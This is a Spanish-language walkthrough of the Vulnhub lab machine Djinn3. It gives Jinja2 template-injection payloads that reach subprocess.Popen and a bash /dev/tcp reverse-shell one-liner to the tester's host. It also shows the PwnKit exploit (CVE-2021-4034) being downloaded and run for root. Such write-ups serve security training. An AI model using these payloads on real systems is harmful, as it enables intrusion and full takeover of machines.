

+++
author = "Andrés Del Cerro"
title = "Vulnhub: Djinn3 Writeup | Medium"
date = "2025-02-03"
description = ""
tags = [
    "Vulnhub",
    "Djinn3",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "SSH Enumeration",
    "CVE-2018-15473",
    "User Enumeration",
    "HTTP Enumeration",
    "Abusing Improper Access Control",
    "Scripting",
    "Python Scripting",
    "Information Disclosure",
    "Abusing Broken Access Control",
    "Server-Side Template Injection",
    "SSTI",
    "CVE-2021-4034",
    "PwnKit"
]

+++

# Vulnhub: Djinn3 Writeup

Welcome to my detailed writeup of the medium difficulty machine **"Djinn3"** on Vulnhub. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
rustscan -a 192.168.154.102 --ulimit 5000 -g
192.168.154.102 -> [22,80,5000,31337]
```

```console
nmap -p22,80,5000,31337 -sCV 192.168.154.102 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-30 22:47 CET
Nmap scan report for 192.168.154.102
Host is up (0.032s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e6:44:23:ac:b2:d9:82:e7:90:58:15:5e:40:23:ed:65 (RSA)
|   256 ae:04:85:6e:cb:10:4f:55:4a:ad:96:9e:f2:ce:18:4f (ECDSA)
|_  256 f7:08:56:19:97:b5:03:10:18:66:7e:7d:2e:0a:47:42 (ED25519)
80/tcp    open  http    lighttpd 1.4.45
|_http-title: Custom-ers
|_http-server-header: lighttpd/1.4.45
5000/tcp  open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
31337/tcp open  Elite?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, NULL:
|     username>
|   GenericLines, GetRequest, HTTPOptions, RTSPRequest, SIPOptions:
|     username> password> authentication failed
|   Help:
|     username> password>
|   RPCCheck:
|     username> Traceback (most recent call last):
|     File "/opt/.tick-serv/tickets.py", line 105, in <module>
|     main()
|     File "/opt/.tick-serv/tickets.py", line 93, in main
|     username = input("username> ")
|     File "/usr/lib/python3.6/codecs.py", line 321, in decode
|     (result, consumed) = self._buffer_decode(data, self.errors, final)
|     UnicodeDecodeError: 'utf-8' codec can't decode byte 0x80 in position 0: invalid start byte
|   SSLSessionReq:
|     username> Traceback (most recent call last):
|     File "/opt/.tick-serv/tickets.py", line 105, in <module>
|     main()
|     File "/opt/.tick-serv/tickets.py", line 93, in main
|     username = input("username> ")
|     File "/usr/lib/python3.6/codecs.py", line 321, in decode
|     (result, consumed) = self._buffer_decode(data, self.errors, final)
|     UnicodeDecodeError: 'utf-8' codec can't decode byte 0xd7 in position 13: invalid continuation byte
|   TerminalServerCookie:
|     username> Traceback (most recent call last):
|     File "/opt/.tick-serv/tickets.py", line 105, in <module>
|     main()
|     File "/opt/.tick-serv/tickets.py", line 93, in main
|     username = input("username> ")
|     File "/usr/lib/python3.6/codecs.py", line 321, in decode
|     (result, consumed) = self._buffer_decode(data, self.errors, final)
|_    UnicodeDecodeError: 'utf-8' codec can't decode byte 0xe0 in position 5: invalid continuation byte
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port31337-TCP:V=7.94SVN%I=7%D=1/30%Time=679BF366%P=x86_64-pc-linux-gnu%
SF:r(NULL,A,"username>\x20")%r(GetRequest,2A,"username>\x20password>\x20au
SF:thentication\x20failed\n")%r(SIPOptions,2A,"username>\x20password>\x20a
SF:uthentication\x20failed\n")%r(GenericLines,2A,"username>\x20password>\x
SF:20authentication\x20failed\n")%r(HTTPOptions,2A,"username>\x20password>
SF:\x20authentication\x20failed\n")%r(RTSPRequest,2A,"username>\x20passwor
SF:d>\x20authentication\x20failed\n")%r(RPCCheck,1A9,"username>\x20Traceba
SF:ck\x20\(most\x20recent\x20call\x20last\):\n\x20\x20File\x20\"/opt/\.tic
SF:k-serv/tickets\.py\",\x20line\x20105,\x20in\x20<module>\n\x20\x20\x20\x
SF:20main\(\)\n\x20\x20File\x20\"/opt/\.tick-serv/tickets\.py\",\x20line\x
SF:2093,\x20in\x20main\n\x20\x20\x20\x20username\x20=\x20input\(\"username
SF:>\x20\"\)\n\x20\x20File\x20\"/usr/lib/python3\.6/codecs\.py\",\x20line\
SF:x20321,\x20in\x20decode\n\x20\x20\x20\x20\(result,\x20consumed\)\x20=\x
SF:20self\._buffer_decode\(data,\x20self\.errors,\x20final\)\nUnicodeDecod
SF:eError:\x20'utf-8'\x20codec\x20can't\x20decode\x20byte\x200x80\x20in\x2
SF:0position\x200:\x20invalid\x20start\x20byte\n")%r(DNSVersionBindReqTCP,
SF:A,"username>\x20")%r(DNSStatusRequestTCP,A,"username>\x20")%r(Help,14,"
SF:username>\x20password>\x20")%r(SSLSessionReq,1B1,"username>\x20Tracebac
SF:k\x20\(most\x20recent\x20call\x20last\):\n\x20\x20File\x20\"/opt/\.tick
SF:-serv/tickets\.py\",\x20line\x20105,\x20in\x20<module>\n\x20\x20\x20\x2
SF:0main\(\)\n\x20\x20File\x20\"/opt/\.tick-serv/tickets\.py\",\x20line\x2
SF:093,\x20in\x20main\n\x20\x20\x20\x20username\x20=\x20input\(\"username>
SF:\x20\"\)\n\x20\x20File\x20\"/usr/lib/python3\.6/codecs\.py\",\x20line\x
SF:20321,\x20in\x20decode\n\x20\x20\x20\x20\(result,\x20consumed\)\x20=\x2
SF:0self\._buffer_decode\(data,\x20self\.errors,\x20final\)\nUnicodeDecode
SF:Error:\x20'utf-8'\x20codec\x20can't\x20decode\x20byte\x200xd7\x20in\x20
SF:position\x2013:\x20invalid\x20continuation\x20byte\n")%r(TerminalServer
SF:Cookie,1B0,"username>\x20Traceback\x20\(most\x20recent\x20call\x20last\
SF:):\n\x20\x20File\x20\"/opt/\.tick-serv/tickets\.py\",\x20line\x20105,\x
SF:20in\x20<module>\n\x20\x20\x20\x20main\(\)\n\x20\x20File\x20\"/opt/\.ti
SF:ck-serv/tickets\.py\",\x20line\x2093,\x20in\x20main\n\x20\x20\x20\x20us
SF:ername\x20=\x20input\(\"username>\x20\"\)\n\x20\x20File\x20\"/usr/lib/p
SF:ython3\.6/codecs\.py\",\x20line\x20321,\x20in\x20decode\n\x20\x20\x20\x
SF:20\(result,\x20consumed\)\x20=\x20self\._buffer_decode\(data,\x20self\.
SF:errors,\x20final\)\nUnicodeDecodeError:\x20'utf-8'\x20codec\x20can't\x2
SF:0decode\x20byte\x200xe0\x20in\x20position\x205:\x20invalid\x20continuat
SF:ion\x20byte\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.62 seconds
```

# UDP Enumeration

```console
sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 192.168.154.102 -oN allPorts.UDP
[sudo] password for kali:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-30 22:47 CET
Nmap scan report for 192.168.154.102
Host is up (0.032s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
5555/udp  closed rplay
16972/udp closed unknown
20560/udp closed unknown
29823/udp closed unknown
31731/udp closed unknown
32345/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.87 seconds
```

Del escaneo inicial vemos el puerto 31337/TCP el cual es un tanto extraño pero vamos a enumerar de menos a mas.

# SSH Enumeration
Dado que la versión de SSH es algo desactualizada, `OpenSSH 7.6p1` quizás sea vulnerable a `CVE-2018-15473`, esta vulnerabilidad permite enumerar usuarios del sistema sin necesidad de credenciales.

Para comprobar esto, siempre suelo utilizar [este PoC de Sait-Nuri](https://github.com/Sait-Nuri/CVE-2018-15473)

Primero nos clonamos el repositorio.
```console
git clone https://github.com/Sait-Nuri/CVE-2018-15473
Cloning into 'CVE-2018-15473'...
remote: Enumerating objects: 16, done.
remote: Counting objects: 100% (16/16), done.
remote: Compressing objects: 100% (13/13), done.
remote: Total 16 (delta 2), reused 0 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (16/16), 5.04 KiB | 737.00 KiB/s, done.
Resolving deltas: 100% (2/2), done.
```

Y parece que está parcheado, por lo cual no es vulnerable y por SSH tampoco podemos hacer mas por ahora.
```console
python3 CVE-2018-15473.py -u root 192.168.154.102
/home/kali/.local/lib/python3.11/site-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated and will be removed in a future release
  'class': algorithms.Blowfish,
[+] root is a valid username
➜  CVE-2018-15473 git:(main) python3 CVE-2018-15473.py -u rooto 192.168.154.102
/home/kali/.local/lib/python3.11/site-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated and will be removed in a future release
  'class': algorithms.Blowfish,
[+] rooto is a valid username
```
# HTTP Enumeration
La versión del servidor web es `lighttpd 1.4.45`, buscando un poco en Google encontré [esta vulnerabilidad](https://www.exploit-db.com/exploits/31396) la cual es para una versión mas antigua que el servicio actual.

> The 'lighttpd' program is prone to a vulnerability that may allow attackers to access sensitive information because the application fails to properly handle exceptional conditions.

Aparentemente el servidor no es vulnerable.


El sitio web principal se ve así, tiene un diseño un poco feo sinceramente y no significa nada, pero normalmente si el diseño es tan "primitivo" no se suele esforzar tanto el desarrollador en la seguridad del sitio.

Analizando el código de la página no encontré nada, pero vemos que según el mensaje de la página principal que esta gente ofrece un tipo de software de edición de texto y de ticketing.

Fuzzeando recursos con `feroxbuster` no encontramos nada interesante.
```console
feroxbuster -u http://192.168.154.102/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -d 1 -t 100

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.154.102/
 🚀  Threads               │ 100
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 1
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       11l       28w      345c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        0l        0w        0c http://192.168.154.102/images => http://192.168.154.102/images/
200      GET      127l      243w     2262c http://192.168.154.102/css.css
200      GET       34l      144w     1414c http://192.168.154.102/
```

# HTTP Enumeration (Port 5000/TCP)

En el puerto `5000/TCP` vemos otro servicio web que pertenece a un servicio de ticketing que tiene pinta de que es "casero".


Quitando que los tickets no deberían de ser públicos y accesibles, según `nmap` vemos que el servidor web es `Werkzeug httpd 1.0.1`, esto significa que probablemente se esté utilizando `Flask` como backend.

Fuzzeando por recursos interesantes tampoco encontré nada.
```console
feroxbuster -u http://192.168.154.102:5000/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -d 1 -t 100 -x php,txt,html,zip,gz
```

Igualmente vemos que existe un parámetro `id` el cual al establecerlo carga el ticket asociado a ese identificador.

He creado un pequeño script para enumerar todos los tickets que podamos por si alguno no se está mostrando en la página principal.
```python
#!/usr/bin/python3
import requests
from pwn import *
from tqdm import tqdm
from concurrent.futures import ThreadPoolExecutor

BASE_URL = "http://192.168.154.102:5000/?id=<REPLACE>"
ERROR_LENGTH = 290
NUM_THREADS = 10

def check_ticket(i):
    r = requests.get(BASE_URL.replace("<REPLACE>", f"{i:04d}"))
    if len(r.text) != ERROR_LENGTH:
        log.success(f"[+] Ticket encontrado ID -> {i:04d}")
        return True
    return False

def brute():
    with log.progress("Probando tickets...") as pbar, ThreadPoolExecutor(max_workers=NUM_THREADS) as executor:
        futures = {executor.submit(check_ticket, i): i for i in range(10000)}
        for future in tqdm(futures, desc="Brute-forcing", unit="ticket"):
            if future.result():
                executor.shutdown(wait=False)
                break

if __name__ == "__main__":
    brute()
```

Igualmente no he encontrado ningún ticket extra.
```console
python3 brute.py
[+] Probando tickets...: Done
Brute-forcing:  28%|██████████████▊                                      | 2790/10000 [00:19<00:49, 145.33ticket/s][+] [+] Ticket encontrado ID -> 2792
Brute-forcing:  28%|██████████████▊                                      | 2792/10000 [00:19<00:49, 146.57ticket/s]
[+] [+] Ticket encontrado ID -> 2973
[+] [+] Ticket encontrado ID -> 2984
[+] [+] Ticket encontrado ID -> 4567
[+] [+] Ticket encontrado ID -> 7723
[+] [+] Ticket encontrado ID -> 8345
```

Leyendo los tickets vemos varias cosas interesantes, primero que no se necesita autenticación para utilizar el sistema de Ticketing.


Otro punto interesante es que parece que debe de haber algún usuario invitado según este mensaje para poder poner tickets.


Otra cosa interesante es que parece que ha habido un empleado llamado `umang` que ha resignado, quizás ha dejado algún backdoor o su cuenta de usuario sigue activa. Y además existe otro usuario llamado `jack`


Vemos mas usuarios y además se nos confirma que sus cuentas siguen creadas y algunas tienen privilegios.


Habiendo leído todos los tickets, tenemos una lista de usuario que por ahora no se si nos servirá de algo pero nunca viene mal.
```console
cat -p users.txt
umang
jack
freddy
jason
david
```

# Custom Ticketing System Enumeration
Vamos a enumerar el servicio del puerto `31337/TCP` que si intentamos conectarnos con `netcat` nos pide una autenticación.

Después de probar algunas combinaciones típicas y utilizando los usuarios que teníamos, vemos que la combinación `guest:guest` es válida.
```console
nc 192.168.154.102 31337
username> guest
password> guest

Welcome to our own ticketing system. This application is still under
development so if you find any issue please report it to mail@mzfr.me

Enter "help" to get the list of available commands.

>
```

Parece que podemos abrir un ticket, así que vamos a probarlo.
```console
> help

        help        Show this menu
        update      Update the ticketing software
        open        Open a new ticket
        close       Close an existing ticket
        exit        Exit

> open
Title: test
Description: test
```

Al comprobarlo en la página principal, vemos que se ha creado el ticket perfectamente.


No podemos actualizar tickets, parece que no tenemos permisos.
```console
> update
You are not authorized to update the system
Contact the system administrator for this
```

Otra cosa que si que podemos hacer es borrar un ticket, da igual de que usuario sea.
```console
> close
Ticket ID: 2973
```

El ticket desaparece.


Esto se consideraría otra vulnerabilidad, supongo que Broken Access Control, igualmente nuestra meta es ganar acceso a la máquina.

# Jinja2 Server-Side Template Injection -> Foothold (RCE)
Recordamos que la aplicación está hecha con `Flask`, ¿verdad?.
Estas aplicaciones mucha gente sabe a lo que son propensas, y es a Server-Side Template Injection ya que estas aplicaciones utilizan `Jinja2` que es un motor de plantillas de Python que se utiliza para crear plantillas HTML , vamos a hacer una pequeña prueba para comprobar si es vulnerable.

Podemos leer [este artículo de HackTricks](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/jinja2-ssti.html?highlight=ssti#jinja2-ssti) donde tenemos varios payloads por si no sabemos proceder en esta situación.

Una forma de comprobar si es vulnerable es utilizando el payload `{{ 7*7 }}` , este es el formato que se utiliza en `Flask` para mostrar el valor de una variable en la plantilla, por lo cual si es vulnerable se debería de mostrar el número `49` en la página principal y esto significaría que el servidor ha hecho la operatoria y por lo cual podemos ejecutar código Python en el servidor.

Creamos el ticket...
```console
open
Title: {{ 7*7 }}
Description: test
```

Vemos que no se muestra el número.


Igualmente si creamos otro ticket y utilizamos el payload en la descripción...
```console
> open
Title: test
Description: {{ 7*7 }}
```

Y vemos que efectivamente, podemos confirmar la vulnerabilidad, ahora solo queda ganar ejecución remota de comandos.


Nuestra meta ahora mismo es llegar a la clase `subprocess.Popen`, para ello necesitamos saber el index de la clase ya que vamos a enumerar primero las clases que están cargadas en el entorno `non-sandboxed` de Python, para poder enumerar esto primero necesitamos llegar a la clase `object` para después poder llamar al método `__subclasses__` y así acceder a las clases.

Entonces por ejemplo, para acceder a la clase objeto podemos hacerlo de esta forma.
```python
dict.__base__
```

Una vez aquí ya podemos llamar al método `__subclasses__()` y así ver todas las clases que están cargadas.
```python
dict.__base__.__subclasses__()
```

En este punto la IP de la máquina víctima va a cambiar ya que me descargué la máquina de Vulnhub, pero bueno, con ese payload podemos ver todas las clases que era nuestro objetivo.
```console
> open
Title: test
Description: {{ dict.__base__.__subclasses__() }}
```


Podemos filtrar por `subprocess.Popen` y vemos que efectivamente, aquí tenemos la clase que nos interesa para conseguir RCE, el problema es que tenemos que saber cual es el índice dentro del array en el que se encuentra.


He creado un pequeño script para encontrar el índice que necesitamos para poder llamar a la clase `subprocess.Popen` ya que obviamente no vamos a buscarlo manualmente, dejo [por aquí el script](https://github.com/pointedsec/ssticf).

Al ejecutarlo...
```console
python3 find_popen.py
El índice de 'subprocess.Popen' es: 400
```

Ahora podemos utilizar la clase y intentar ejecutar un comando a nivel de sistema.
```console
> open
Title: rce3
Description: {{ dict.__base__.__subclasses__()[400]('ping -c 1 192.168.18.132',shell=True,stdout=-1).communicate()[0].strip() }}
```

Y si ingresamos al Ticket creado, vemos que conseguimos ejecutar este comando...


Ahora nos vamos a mandar una reverse shell utilizando el típico one-liner.
```console
> open
Title: rce4
Description: {{ dict.__base__.__subclasses__()[400]('bash -c "bash -i >& /dev/tcp/192.168.18.132/443 0>&1" ',shell=True,stdout=-1).communicate()[0].strip() }}
```

Nos ponemos en escucha con `pwncat-cs` por el puerto 443.
```console
pwncat-cs -lp 443
```

Ahora abrimos el ticket....


Y conseguimos una shell en la máquina víctima.
```console
(remote) www-data@djinn3:/opt/.web$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# Privilege Escalation
Vemos que existen varios usuarios en la máquina víctima.
```console
(remote) www-data@djinn3:/opt/.web$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
saint:x:1000:1002:,,,:/home/saint:/bin/bash
jack:x:1001:1003:,,,:/home/jack:/bin/bash
mzfr:x:1002:1004:,,,:/home/mzfr:/bin/bash
```

Existe una manera intencionada para escalar privilegios, la cual es mas complicada que la manera de la cual yo escalé los privilegios, pero seguridad avanza y esta máquina era vulnerable a....
```console
find / \-perm \-4000 2>/dev/null
/bin/su
/bin/umount
/bin/mount
/bin/fusermount
/bin/ping
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/newgrp
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Vaya, el `pkexec` tiene permisos de SUID, eso significa que quizás podamos utilizar `PwnKit` (CVE-2021-4034) para escalar privilegios.

De hecho si pasamos el `linux-exploit-suggester.sh` vemos que nos dice que probablemente la máquina sea vulnerable ya que encaja con la versión de la distribución.
```console
./linux-exploit-suggester.sh

Available information:

Kernel version: 4.15.0
Architecture: x86_64
Distribution: ubuntu
Distribution version: 18.04
Additional checks (CONFIG_*, sysctl entries, custom Bash commands): performed
Package listing: from current OS

Searching among:

81 kernel space exploits
49 user space exploits

Possible Exploits:

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```

## PwnKit - CVE-2021-4034
Primero, como en la máquina víctima tengo conexión a internet, vamos a descargar el exploit directamente.
```console
(remote) www-data@djinn3:/tmp$ wget https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```

Ahora podemos extraer el exploit
```console
(remote) www-data@djinn3:/tmp$ unzip main
```

Le damos permiso de ejecución al script que se nos incluye que se va a encargar de compilar el exploit y ejecutarlo.
```console
(remote) www-data@djinn3:/tmp/CVE-2021-4034-main$ chmod +x ./cve-2021-4034.sh
```

Ahora simplemente lo ejecutamos y...
```console
(remote) www-data@djinn3:/tmp/CVE-2021-4034-main$ ./cve-2021-4034.sh
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /bin/true GCONV_PATH=./pwnkit.so:.
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

Podemos ver la flag de `root`
```console
# ./proof.sh
TERM environment variable not set.
    _                        _             _ _ _
   / \   _ __ ___   __ _ ___(_)_ __   __ _| | | |
  / _ \ | '_ ` _ \ / _` |_  / | '_ \ / _` | | | |
 / ___ \| | | | | | (_| |/ /| | | | | (_| |_|_|_|
/_/   \_\_| |_| |_|\__,_/___|_|_| |_|\__, (_|_|_)
                                     |___/
djinn-3 pwned...
__________________________________________________________________________

Proof: VGhhbmsgeW91IGZvciB0cnlpbmcgZGppbm4zID0K
Path: /root
Date: Mon Feb 3 17:14:50 IST 2025
Whoami: root
__________________________________________________________________________

By @0xmzfr

Special thanks to @DCAU7 for his help on Privilege escalation process
And also Thanks to my fellow teammates in @m0tl3ycr3w for betatesting! :-)

If you enjoyed this then consider donating (https://blog.mzfr.me/support/)
so I can continue to make these kind of challenges.
```

¡Y ya estaría!

Happy Hacking! 🚀